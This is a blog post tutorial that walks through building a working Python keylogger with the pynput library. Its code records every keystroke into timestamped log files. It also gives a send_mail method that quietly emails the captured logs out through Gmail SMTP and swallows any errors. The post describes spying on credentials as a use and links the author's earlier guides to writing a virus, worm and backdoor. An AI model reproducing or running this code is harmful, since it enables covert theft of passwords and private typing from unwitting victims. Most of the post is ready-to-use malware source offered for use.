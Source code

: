 ```yaml
---
layout: single
title: "A Basic Keylogger in Python"
header:
  image: "https://live.staticflickr.com/65535/51211036232_6916bf5c10_c.jpg"
  teaser: "https://live.staticflickr.com/65535/51211036232_6916bf5c10_c.jpg"
categories:
  - Security
tags:
  - Python
  - Tutorial
  - Keylogging
  - Keylogger
  - Trojan Horse
toc: true
toc_label: "Table of Contents"
toc_icon: "heart"
---
```



Keylogger is a simple yet effective program that can monitor a person's keyboard activities. It can be used to spy on a person's data (browsing activities, user credentials, etc.) or to monitor children activities.

It can be designed to store all keystrokes activities in a local log file or can be sent via email depending on how it is designed.

In this tutorial, we will see how to write a simple keylogger in python so that we understand the underlying theme of how it works. If you are interested to write other types of malwares, you can look into my previous posts:
* [Write a Simple Virus in Python](https://shantoroy.com/security/write-a-virus-in-python/)
* [Write a Worm (Malware) in Python](https://shantoroy.com/security/write-a-worm-malware-in-python/)
* [Write a Backdoor in Python](https://shantoroy.com/security/simple-backdoor-using-python/)


## Requirements
First, we need to install the module [pynput](https://pynput.readthedocs.io/en/latest/index.html). This module is used to control and monitor `keyboard` or `mouse/trackpad` activities.
```
$ pip install pynput
```

Now, for our simple program, we import the following modules

```python
from pynput.keyboard import Key, Listener
import  logging
import  os
from  datetime  import  datetime
```

## Writing a Keylogger Class
Let's create a keylogger class that contains all the methods we need to perform keylogger activities.

First, we need to create a directory that will contain our log files. We create a subdirectory named `log` in the current directory (from where we are running the script) if does not exist.

```python
class Keylogger:
     
    def create_log_directory(self):
        sub_dir = "log"
        cwd = os.getcwd()
        self.log_dir = os.path.join(cwd,sub_dir)
        if not os.path.exists(sub_dir):
            os.mkdir(sub_dir)
```

Next we create a static method that returns key information if a key is pressed. We need this function for later use.

```python
    @staticmethod
    def on_press(key):
        try:
            logging.info(str(key))
        except Exception as e:
            logging.info(e)
```

Finally, we need to report the keystroke information in a file. We create a text file and name with the current time as a prefix so that the program creates a new file each time it is run with a new filename. Also, we need to configure how we want the information to be stored in the log file using `logging.basicConfig` format. And then we use the `Listener` method to track keystroke information where we pass our previous static method as a callback.
```python
    def write_log_file(self):
        # time format example: '2021-05-29-171747'
        time = str(datetime.now())[:-7].replace(" ", "-").replace(":", "")
        # logging info in the file
        logging.basicConfig(
                 filename=(os.path.join(self.log_dir, time) + "log.txt"),
                 level=logging.DEBUG, 
                 format= '[%(asctime)s]: %(message)s',
             )
        
        with Listener(on_press=self.on_press) as listener:
            listener.join()
```

## Running the Script
Let's create the main function where we create an object of the `Keylogger` class, and then call the methods one after another.

```python
if  __name__ == "__main__":
	klog = Keylogger()
	klog.create_log_directory()
	klog.write_log_file()
```

Note that, while writing the code, I could avoid creating a class and use the methods as basic python functions. However, it is better to use classes so that you can add other functionalities when you need in the future.

Now, run the script from the terminal and check the created log files.
```sh
$ python keylogger.py
```

The whole is available [here](https://github.com/shantoroy/intro-2-cybersecurity-in-python/blob/master/keylogger/keylogger.py).

## Other Functionalities
You can add more functionalities, for example sending the logs via email or the log file as email attachments. 
```python
    def send_mail(self, email, password, TO, msg):
        with smtplib.SMTP("smtp.gmail.com", 587) as server:
            try:
                server.starttls()    # enable secure TLS mode
                server.login(email, password)
                server.sendmail(email, TO, msg)
            except Exception as e:
                pass
            finally:
                server.quit()
```
I will post details on how to send message via email or send an attachment with email in a seperate post.

That's it! Thanks for being with me. Cheers!



## References
* [pynput: Handling the keyboard](https://pynput.readthedocs.io/en/latest/keyboard.html)
* [Design a Keylogger in Python](https://www.tutorialspoint.com/design-a-keylogger-in-python)
* [How to Make a Keylogger in Python](https://www.thepythoncode.com/article/write-a-keylogger-python)
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTMyMjEzNzM5OCwtMTM2OTg2NTg2LDE3OT
E2NTU2MzgsLTE2NDc4MzE0OCwtNzQzNzk1MDc4LDEzMDIzMzE4
MzZdfQ==
-->